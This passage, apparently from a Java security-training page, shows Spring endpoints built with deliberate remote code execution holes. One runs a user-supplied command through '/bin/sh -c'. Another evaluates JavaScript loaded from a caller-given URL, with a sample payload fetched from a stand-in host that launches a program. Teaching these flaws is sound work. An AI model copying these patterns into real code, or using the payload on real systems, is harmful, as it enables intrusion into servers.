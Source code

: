 ```java
} catch (Exception e) {  
return e.toString();  
}  
return sb.toString();  
}
```
#### ProcessBuilder

```java
@GetMapping("/ProcessBuilder")  
public String processBuilder(String cmd) {  
  
StringBuilder sb = new StringBuilder();  
  
try {  
String[] arrCmd = {"/bin/sh", "-c", cmd};  
ProcessBuilder processBuilder = new ProcessBuilder(arrCmd);  
Process p = processBuilder.start();  
BufferedInputStream in = new BufferedInputStream(p.getInputStream());  
BufferedReader inBr = new BufferedReader(new InputStreamReader(in));  
String tmpStr;  
  
while ((tmpStr = inBr.readLine()) != null) {  
sb.append(tmpStr);  
}  
} catch (Exception e) {  
return e.toString();  
}  
  
return sb.toString();  
}
```
#### js
```
http://localhost:8080/rce/jscmd?jsurl=http://xx.yy/zz.js  
 
curl http://xx.yy/zz.js  
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("open -a Calculator");}
```

```java
@GetMapping("/jscmd")  
public void jsEngine(String jsurl) throws Exception{  
// js nashorn javascript ecmascript  
ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");  
Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);  
String cmd = String.format("load(\"%s\")", jsurl);  
engine.eval(cmd, bindings);  
}
```
